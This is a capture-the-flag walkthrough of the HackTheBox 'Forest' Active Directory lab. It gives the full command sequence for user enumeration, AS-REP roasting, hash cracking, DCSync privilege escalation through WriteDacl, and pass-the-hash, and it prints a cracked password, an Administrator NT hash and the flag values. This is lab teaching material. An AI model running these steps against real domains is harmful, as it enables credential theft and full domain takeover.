# HackTheBox — Forest | Full Walkthrough

> **Machine:** Forest
> **Difficulty:** Easy (Windows — Active Directory)
> **Author:** vodanhtieutot
> **Platform:** HackTheBox

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [LDAP & RPC Enumeration — User Discovery](#3-ldap--rpc-enumeration--user-discovery)
4. [AS-REP Roasting — svc-alfresco Hash](#4-as-rep-roasting--svc-alfresco-hash)
5. [Hash Cracking — Hashcat](#5-hash-cracking--hashcat)
6. [Initial Access — Evil-WinRM as svc-alfresco](#6-initial-access--evil-winrm-as-svc-alfresco)
7. [User Flag](#7-user-flag)
8. [BloodHound — Attack Path Discovery](#8-bloodhound--attack-path-discovery)
9. [Privilege Escalation — WriteDacl → DCSync](#9-privilege-escalation--writedacl--dcsync)
10. [DCSync — Dump Administrator Hash](#10-dcsync--dump-administrator-hash)
11. [Pass-the-Hash — Evil-WinRM as Administrator](#11-pass-the-hash--evil-winrm-as-administrator)
12. [Root Flag](#12-root-flag)
13. [Flags & Answers Summary](#13-flags--answers-summary)
14. [Attack Chain Summary](#14-attack-chain-summary)
15. [Tools Used](#15-tools-used)

---

## 1. Overview

**Forest** là machine Windows Easy trên HackTheBox xoay quanh môi trường **Active Directory**. Attack path khai thác cấu hình sai của tài khoản service `svc-alfresco` — tài khoản này có **Pre-Authentication bị tắt**, cho phép thực hiện **AS-REP Roasting** để lấy Kerberos hash mà không cần credentials. Sau khi crack hash, dùng **BloodHound** để phân tích AD graph và phát hiện đường leo quyền: `svc-alfresco` → thêm vào group **Exchange Windows Permissions** → grant **DCSync rights** qua **WriteDacl** → dump toàn bộ NTLM hashes → **Pass-the-Hash** với Administrator.

```
Recon → LDAP/RPC enum users → AS-REP Roast svc-alfresco → hashcat → s3rvice
→ Evil-WinRM svc-alfresco → BloodHound → Exchange Windows Permissions (WriteDacl)
→ Add-ADGroupMember + Add-DomainObjectAcl (DCSync) → secretsdump
→ Administrator NTLM hash → Pass-the-Hash → root
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.129.13.135` |
| Machine Name | `FOREST` |
| Domain | `htb.local` |
| OS | Windows Server 2016 Standard |
| Key Ports | 53, 88, 135, 139, 389, 445, 5985 |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

```bash
nmap -Pn -p- --min-rate 5000 10.129.13.135
```



Đặc trưng Windows Domain Controller:

| Port | Service |
|---|---|
| 53 | DNS |
| 88 | Kerberos |
| 135 / 593 | MSRPC / HTTP RPC |
| 139 / 445 | SMB |
| 389 / 636 | LDAP / LDAPS |
| 464 | kpasswd5 (Kerberos) |
| 3268 / 3269 | Global Catalog LDAP |
| **5985** | **WinRM — Evil-WinRM access** |
| 9389 | ADWS (Active Directory Web Services) |

### 2.2 Service & Script Scan

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,389,445,464,693,636,3628,3269,5985 10.129.13.135
```



Thông tin quan trọng:

| Detail | Value |
|---|---|
| Hostname | `FOREST` |
| Domain | `htb.local` |
| Forest name | `htb.local` |
| OS | Windows Server 2016 Standard 14393 |
| SMB Signing | Enabled and Required |
| Clock Skew | ~2h26m — cần sync time nếu dùng Kerberos trực tiếp |

> **WinRM port 5985 mở** — Evil-WinRM hoạt động được khi có credentials hợp lệ.

---

## 3. LDAP & RPC Enumeration — User Discovery

### 3.1 LDAP Anonymous — Enumerate Users

```bash
ldapsearch -x -H ldap://10.129.13.135 \
  -b "DC=htb,DC=local" \
  -s sub \
  "(&(objectClass=user))" | grep sAMAccountName
```



LDAP anonymous trả về danh sách user, lọc các tài khoản thực sự quan trọng:

| Type | Accounts |
|---|---|
| System | `Guest`, `DefaultAccount`, `FOREST$`, `EXCH01$` |
| Exchange (service) | `$331000-VK4ADACQNUCA`, `SM_*` (nhiều) |
| Exchange (health) | `HealthMailbox*` (nhiều) |
| **Người dùng thực** | **`sebastien`, `lucinda`, `andy`, `mark`, `santi`** |

### 3.2 RPC Null Session — Full User List

```bash
rpcclient -U "" -N 10.129.13.135 -c "enumdomusers"
```



RPC null session thành công, phát hiện thêm user quan trọng bị bỏ sót bởi LDAP filter:

| Username | RID | Notes |
|---|---|---|
| Administrator | 0x1f4 | Built-in admin |
| **svc-alfresco** | **0x47b** | **Service account — mục tiêu** |
| sebastien | 0x479 | |
| lucinda | 0x47a | |
| andy | 0x47e | |
| mark | 0x47f | |
| santi | 0x480 | |

> 🎯 **`svc-alfresco`** — tài khoản service cho **Alfresco** (nền tảng content management). Service account thường có cấu hình kém bảo mật hơn user thường.

---

## 4. AS-REP Roasting — svc-alfresco Hash

Tạo file danh sách users và chạy **AS-REP Roasting** với `impacket-GetNPUsers`:

```bash
impacket-GetNPUsers htb.local/ \
  -dc-ip 10.129.13.135 \
  -no-pass \
  -request \
  -usersfile /tmp/users.txt \
  -format hashcat 2>/dev/null
```



Kết quả scan:

```
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] KDC_ERR_CLIENT_REVOKED (nhiều Exchange accounts bị revoked)
[-] HealthMailbox* doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] svc-alfresco@HTB.LOCAL — AS-REP hash captured!
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5517826cf41e3c192e630b9ad7f8b6c0$28a97399942e7aa6668...
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy/mark/santi don't have UF_DONT_REQUIRE_PREAUTH set
```

> 🎯 **Chỉ `svc-alfresco` có `UF_DONT_REQUIRE_PREAUTH`** — cờ này cho phép request AS-REP từ KDC mà **không cần biết password trước**. KDC trả về một phần mã hóa bằng password hash của user — có thể crack offline.

**AS-REP Roasting hoạt động như thế nào:**
- Bình thường, Kerberos Pre-Authentication yêu cầu client mã hóa timestamp bằng password hash của mình trước khi KDC cấp TGT
- Khi Pre-Auth bị tắt (`UF_DONT_REQUIRE_PREAUTH`), KDC cấp AS-REP ngay mà không xác thực
- Phần `enc-part` của AS-REP được mã hóa bằng password hash → có thể brute-force offline

---

## 5. Hash Cracking — Hashcat

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
```



```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:...:s3rvice
```

> 🎯 **Hash cracked: `svc-alfresco` / `s3rvice`**

---

## 6. Initial Access — Evil-WinRM as svc-alfresco

```bash
evil-winrm -i 10.129.13.135 -u svc-alfresco -p 's3rvice'
```



```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

> 🎯 **Shell thành công với svc-alfresco!**

---

## 7. User Flag

```powershell
cd Desktop
cat user.txt
```

```
01f003378b2ec2d69a22558337a0f1e8
```

> 🚩 **user.txt (User Flag):** `01f003378b2ec2d69a22558337a0f1e8`

---

## 8. BloodHound — Attack Path Discovery

Chạy **BloodHound** collector (SharpHound) để thu thập AD data, sau đó phân tích graph trong BloodHound GUI.

### 8.1 Exchange Windows Permissions → WriteDacl



BloodHound phát hiện: group **Exchange Windows Permissions** có quyền **WriteDacl** trên domain object `HTB.LOCAL`.

> **WriteDacl** cho phép sửa đổi DACL (Discretionary Access Control List) của domain object → có thể grant thêm quyền bất kỳ, kể cả **DCSync rights** (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All).

### 8.2 svc-alfresco → Exchange Windows Permissions Path



BloodHound vạch ra attack path rõ ràng:

```
svc-alfresco
  └─ MemberOf → Service Accounts@HTB.LOCAL
       └─ MemberOf → Privileged IT Accounts@HTB.LOCAL
            └─ MemberOf → Account Operators@HTB.LOCAL (GenericAll trên nhiều groups)

Exchange Windows Permissions@HTB.LOCAL
  └─ WriteDacl → HTB.LOCAL (domain)
```

> 💡 **Strategy:** `svc-alfresco` thuộc `Account Operators` (có quyền quản lý nhiều group). Thêm `svc-alfresco` vào **Exchange Windows Permissions** → dùng WriteDacl để grant DCSync → dump tất cả hashes.

---

## 9. Privilege Escalation — WriteDacl → DCSync

### 9.1 Thêm svc-alfresco vào Exchange Windows Permissions

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members svc-alfresco
Get-ADGroupMember -Identity "Exchange Windows Permissions" | Select Name
```



```
Name
----
svc-alfresco
Exchange Trusted Subsystem
```

> `svc-alfresco` đã là member của **Exchange Windows Permissions** — giờ có WriteDacl trên domain.

### 9.2 Grant DCSync Rights với PowerView

Upload `PowerView.ps1` lên máy và chạy `Add-DomainObjectAcl`:

```powershell
. .\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" `
  -PrincipalIdentity svc-alfresco `
  -Rights DCSync `
  -Verbose
```



```
Verbose: [Add-DomainObjectAcl] Granting principal CN=svc-alfresco,...
  rights 'DCSync' on DC=htb,DC=local
Verbose: Granting rights GUID '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' (DS-Replication-Get-Changes)
Verbose: Granting rights GUID '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' (DS-Replication-Get-Changes-All)
Verbose: Granting rights GUID '89e95b76-444d-4c62-991a-0facbeda640c' (DS-Replication-Get-Changes-In-Filtered-Set)
```

> 🎯 **DCSync rights đã được grant!** Ba GUIDs cần thiết cho DCSync replication đã được cấp cho `svc-alfresco`.

---

## 10. DCSync — Dump Administrator Hash

Từ Kali, dùng `impacket-secretsdump` để thực hiện DCSync attack — giả vờ là một Domain Controller đang request replication:

```bash
impacket-secretsdump htb.local/svc-alfresco:'s3rvice'@10.129.13.135
```



```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

> 🎯 **Administrator NTLM hash:**
> - LM Hash: `aad3b435b51404eeaad3b435b51404ee` (empty — disabled)
> - **NT Hash: `32693b11e6aa90eb43d32c72a07ceea6`**

**DCSync hoạt động như thế nào:**
- Domain Controllers dùng MS-DRSR protocol để replicate AD data với nhau
- Với quyền `DS-Replication-Get-Changes-All`, bất kỳ account nào cũng có thể giả vờ là DC và request replication
- `secretsdump` dùng DRSUAPI để pull toàn bộ NTDS.DIT secrets — kể cả password hashes của mọi user trong domain

---

## 11. Pass-the-Hash — Evil-WinRM as Administrator

Không cần crack hash — dùng NT hash trực tiếp với **Pass-the-Hash**:

```bash
evil-winrm -i 10.129.13.135 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```



```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

> 🎯 **Administrator shell thành công qua Pass-the-Hash!** Không cần plaintext password.

---

## 12. Root Flag

```powershell
cd C:\Users\Administrator\Desktop
cat root.txt
```

```
810c016d57e4e0e8c7f79143b842f76d
```

> 🚩 **root.txt (Root Flag):** `810c016d57e4e0e8c7f79143b842f76d`

---

## 13. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\svc-alfresco\Desktop\user.txt` | `01f003378b2ec2d69a22558337a0f1e8` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `810c016d57e4e0e8c7f79143b842f76d` |

---

## 14. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → DC ports: 53/88/135/139/389/445/636/3268/5985
        → Windows Server 2016, htb.local

[2] Nmap -sC -sV -A
        → Hostname: FOREST, Domain: htb.local
        → WinRM (5985) mở → Evil-WinRM target

[3] ldapsearch -x anonymous
        → sAMAccountName: sebastien, lucinda, andy, mark, santi
        → Exchange/HealthMailbox accounts (service accounts)

[4] rpcclient -U "" -N → enumdomusers
        → Phát hiện thêm: svc-alfresco (0x47b)
        → Total ~30+ users incl. service accounts

[5] impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt -format hashcat
        → [+] svc-alfresco → UF_DONT_REQUIRE_PREAUTH SET
        → AS-REP hash captured: $krb5asrep$23$svc-alfresco@HTB.LOCAL:...

[6] hashcat -m 18200 hash.txt rockyou.txt --force
        → svc-alfresco : s3rvice

[7] evil-winrm -i 10.129.13.135 -u svc-alfresco -p 's3rvice'
        → Shell as svc-alfresco
        → cat user.txt → user flag ✓

[8] BloodHound analysis
        → Exchange Windows Permissions → WriteDacl → HTB.LOCAL
        → svc-alfresco → Account Operators → có thể AddMember vào Exchange Windows Permissions

[9] Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members svc-alfresco
        → svc-alfresco giờ có WriteDacl trên domain

[10] . .\PowerView.ps1
     Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local"
       -PrincipalIdentity svc-alfresco -Rights DCSync -Verbose
        → DS-Replication-Get-Changes granted
        → DS-Replication-Get-Changes-All granted

[11] impacket-secretsdump htb.local/svc-alfresco:'s3rvice'@10.129.13.135
        → Administrator NT hash: 32693b11e6aa90eb43d32c72a07ceea6

[12] evil-winrm -i 10.129.13.135 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
        → Pass-the-Hash → Administrator shell ✓
        → cat root.txt → root flag ✓
```

---

## 15. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `ldapsearch` | LDAP anonymous enumeration (users, attributes) |
| `rpcclient` | RPC null session — full user enumeration |
| `impacket-GetNPUsers` | AS-REP Roasting — capture Kerberos hash |
| `hashcat` (mode 18200) | Crack Kerberos AS-REP hash với rockyou.txt |
| `evil-winrm` | WinRM remote shell (svc-alfresco & Administrator) |
| **BloodHound** | AD attack path visualization & analysis |
| **SharpHound** | BloodHound data collector (chạy trên target) |
| PowerShell `Add-ADGroupMember` | Thêm svc-alfresco vào Exchange Windows Permissions |
| **PowerView** (`Add-DomainObjectAcl`) | Grant DCSync rights cho svc-alfresco |
| `impacket-secretsdump` | DCSync attack — dump domain NTLM hashes |
| Pass-the-Hash (`-H`) | Evil-WinRM với NT hash (không cần plaintext) |
